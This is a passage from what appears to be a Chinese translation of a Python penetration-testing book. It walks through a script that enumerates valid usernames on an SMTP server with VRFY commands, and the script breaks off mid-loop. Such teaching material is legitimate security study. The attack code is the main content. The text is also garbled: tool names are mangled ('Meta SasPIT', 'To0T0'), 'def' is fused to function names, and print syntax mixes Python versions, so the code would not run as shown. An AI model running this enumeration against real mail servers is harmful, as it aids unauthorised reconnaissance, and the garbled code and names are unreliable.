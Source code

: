 由于 Meta SasPIT 和其他的 To0T0 攻击工具没有考虑到会话尝试的超时和每次尝试之间的延迟，所以我们需要考虑通过合并这些任务来使脚本更有用。如前所述，工具非常好，它们通常适合 80%的情况，但作为一名专业人员，意味着适应工具可能不适合的情况。

到目前为止，所使用的库已经很常见，但我们从[第 2 章](02.html#aid-KVCC1 "Chapter 2. The Basics of Python Scripting")、*Python 脚本基础知识*——用于网络接口控制和超时控制的套接字库中添加了一个。

```
#/usr/bin/env python
import socket, time, argparse, os, sys
```

下一个函数将文件读入一个列表，用于测试用户名。

```
defread_file(filename):
    with open(filename) as file:
        lines = file.read().splitlines()
    return lines
```

接下来，修改`username_generator.py`脚本函数，将数据写入组合用户名文件。这将为有用的输出格式提供一个已确认的用户名列表。

```
defwrite_username_file(username_list, filename, verbose):
    open(filename, 'w').close() #Delete contents of file name
    if verbose > 1:
        print("[*] Writing to %s") % (filename)
    with open(filename, 'w') as file:
        file.write('\n'.join(username_list))
    return
```

最后一个函数也是最复杂的函数称为`verify_smtp`，它针对 SMTP`VRFY`漏洞验证用户名。首先，它加载从`read_file`函数返回的用户名，并确认参数数据。

```
defverify_smtp(verbose, filename, ip, timeout_value, sleep_value, port=25):
    if port is None:
        port=int(25)
    elif port is "":
        port=int(25)
    else:
        port=int(port)
    if verbose > 0:
        print "[*] Connecting to %s on port %s to execute the test" % (ip, port)
    valid_users=[]
    username_list = read_file(filename)
```

然后，脚本从列表中取出每个用户名，并使用条件测试尝试在指定的 IP 和端口创建与系统的连接。我们在横幅连接时捕获它，使用用户名构建命令，然后发送命令。返回的数据存储在 results 变量中，该变量针对以前记录的响应代码进行测试。如果收到 252 响应，用户名将附加到`valid_users`列表中。

```
    for user in username_list:
        try:
            sys.stdout.flush()
            s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            s.settimeout(timeout_value)
            connect=s.connect((ip,port))
            banner=s.recv(1024)
            if verbose > 0:
                print("[*] The system banner is: '%s'") % (str(banner))
            command='VRFY ' + user + '\n'
            if verbose > 0:
                print("[*] Executing: %s") % (command)
                print("[*] Testing entry %s of %s") % (str(username_list.index(user)),str( len(username_list)))
            s.send(command)
            result=s.recv(1024)
            if "252" in result:
                valid_users.append(user)
```